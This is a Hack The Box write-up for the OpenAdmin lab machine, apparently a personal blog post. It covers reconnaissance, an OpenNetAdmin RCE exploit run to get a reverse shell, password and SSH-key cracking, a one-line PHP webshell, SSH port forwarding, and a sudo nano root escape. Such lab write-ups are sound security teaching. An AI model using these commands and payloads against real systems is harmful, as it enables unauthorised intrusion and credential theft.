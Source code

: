 ```yaml
---
title: "[Writeup] Hack The Box: OpenAdmin"
date: 2020-04-29T23:39:12+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Let's pwn OpenAdmin from Hack The Box. This box is quite easy, as there are multiple ways to get the user flag. One part of the solution I used below is too easy in my opinion, as it could be caused by the overlook of the box creator.

![](/images/htb_openadmin/infocard.png)

<!--more-->

**OS:** Linux  
**Difficulty:** Easy  
**Points:** 20  
**Release:** 04 Jan 2020  
**IP:** 10.10.10.171  
**Date Cleared:** 20 Apr 2020


**[สำหรับ Writeup ภาษาไทย กดที่ Link นี้ได้เลยครับ](/writeup/htb_openadmin_th/)**

## Information Gathering

Starting with `nmap` as usual, we can see that there are two open ports, `ssh` on 22, and `http` on `80`.

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80

On port `80`, there is an Apache2 Default Page on the home page.

![](/images/htb_openadmin/80_home.png)

Using `gobuster`, several interesting paths were found.

![](/images/htb_openadmin/80_gobuster.png)

After accessing them one by one, we can see that they are just static template webpages with placeholder text.

![](/images/htb_openadmin/80_artwork.png)

![](/images/htb_openadmin/80_sierra.png)

![](/images/htb_openadmin/80_music.png)

However, on the music page, the Login button links to <http://10.10.10.171/ona>. The page is hosting `OpenNetAdmin 18.1.1`.

![](/images/htb_openadmin/80_ona.png)

Using Google search, we can see that the version is vulnerable to RCE.

![](/images/htb_openadmin/ona_rce.png)

## Exploitation

I downloaded an exploit script from <https://raw.githubusercontent.com/amriunix/ona-rce/master/ona-rce.py> and run it with the command `python3 ona-rce.py exploit http://10.10.10.171/ona/` to get a reverse shell.

![](/images/htb_openadmin/80_ona_rev.png)

Digging through the files, I found an interesting config file containing db password `n1nj4W4rri0R!`.

![](/images/htb_openadmin/dbsetting.png)

Looking at the home directory, we can see two users, `jimmy` and `joanna`. I was able to login with the user `jimmy` using the password found.

![](/images/htb_openadmin/user.png)

At this point, I just used `ssh` to connect to the server and dig further.

I then found an interesting path, `/var/www/internal`, owned by `jimmy`.

![](/images/htb_openadmin/internal.png)

The `index.php` page contains a login form. The username must be `jimmy`, and the `sha512` hash of the password must match.

![](/images/htb_openadmin/internal_index.png)

The `main.php` page prints out the private key of `joanna`.

![](/images/htb_openadmin/internal_main.png)

Now can roughly guess the steps we need to take. Find the correct password, log in, get the private key, and use the key to login as `joanna`.

Starting from the password, I used <https://crackstation.net/> to crack the hash, and found that the password is `Revealed`.

![](/images/htb_openadmin/internal_index_crack.png)

To log in, we need to know the port that these pages are hosted on. Knowing that the web server is `apache`, we can find the configuration files in `/etc/apache2/`. I found that the `/var/www/internal` path is hosted on port `52846`.

![](/images/htb_openadmin/internal_apache.png)

Remember the `nmap` result? Yes, the port `52846` is not open from the outside, so we can only access it internally from the target machine using `curl`.

**However, there's a twist!** Let's look at the source code of `main.php` again.

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

The private key would be printed whether we are logged in or not! We would just be redirected to `index.php` if we are not logged in. Therefore, we can just curl `main.php` to get the private key, no username or password needed.

![](/images/htb_openadmin/internal_curlpriv.png)

So, what if we want to access the internal website from a web browser on our machine? `Local Port Forwarding` is the answer.

The command to do `Local Port Forwarding` is `ssh -L local_port:destination_ip:destination_port username@ssh_server_ip`.

As we already know the credential of `jimmy` (username), we can use `ssh` to forward the connection from a port on our machine, such as `80` (local_port), through the ssh server on `10.10.10.171` (ssh_server_ip), to the destination host at `127.0.0.1` (destination_ip) on port `52846` (destination_port). This means that the ssh server host would forward the connection to itself, allowing us to connect to a locally hosted web server.

The command is `ssh -L 80:127.0.0.1:52846 jimmy@10.10.10.171`.

![](/images/htb_openadmin/internal_localforward.png)

With the port forwarding done. we can now use the web browser to connect to port `80` on our machine to reach the web server.

![](/images/htb_openadmin/internal_localhost.png)

Logging in with `jimmy:Revealed`.

![](/images/htb_openadmin/internal_login.png)

As planned, we now have the private key of `joanna`.

![](/images/htb_openadmin/internal_privkey.png)

I copied the private key into a file name `privkey`. We can use the key to `ssh` to the target with the user `joanna` using the command `ssh -i privkey joanna@10.10.10.171` ... or not?

The private key is protected with a passphrase!

![](/images/htb_openadmin/joanna_pass.png)

But what is the passphrase? Let's try cracking it using `john` and our beloved wordlist, `rockyou.txt`.

We can convert the private key into the format usable by `john` with the command `python /usr/share/jogn/ssh2john.py privkey > privkey.hash`, then crack it using the command `john privkey.hash --wordlist=/usr/share/wordlists/rockyou.txt`.

And the result? Success!

![](/images/htb_openadmin/internal_privkey_crack.png)

We can *finally* `ssh` to the target using the private key and the passphrase `bloodninjas`.

![](/images/htb_openadmin/joanna_ssh.png)

### Another Solution

There's another method to access `joanna`. If we go back, we can see that `jimmy` own the `/var/www/internal` directory and all the files inside, so we can edit the existing files, or write new files there.

![](/images/htb_openadmin/internal.png)

We can create a simple command execution webshell named `cmd.php` in the directory using `echo '<?php echo shell_exec($_GET["cmd"]); ?>' > cmd.php`. Then we can `curl` to the page with our command in `cmd` parameter using `curl localhost:52846/cmd.php?cmd=[COMMAND]` to run arbitrary commands as `joanna`.

![](/images/htb_openadmin/internal_joannacmd.png)

We can use this method to get the private key, or put our public key inside `/home/joanna/.ssh/authorized_keys` to gain access to the machine.

## Privilege Escalation

The escalation steps for this box is quite straightforward. Using `sudo -l`, we can see that `nano` can be run as `root` without password needed.

![](/images/htb_openadmin/joanna_nano.png)

With the information from <https://gtfobins.github.io/gtfobins/nano/>, it's clear that `sudo` with `nano` is a `nono`, allowing a low-privilege user to escalate to `root` easily.

![](/images/htb_openadmin/gtfobins.png)

Running `nano` with elevated permission.

![](/images/htb_openadmin/priv1.png)

Pressing `Ctrl-R`, then `Ctrl-X` to execute command.

![](/images/htb_openadmin/priv2.png)

Type `reset; sh 1>&0 2>&0`, then press `Enter`.

![](/images/htb_openadmin/priv3.png)

Tap `Enter` a few times to clear the screen, and here we go, rooted!

![](/images/htb_openadmin/root.png)
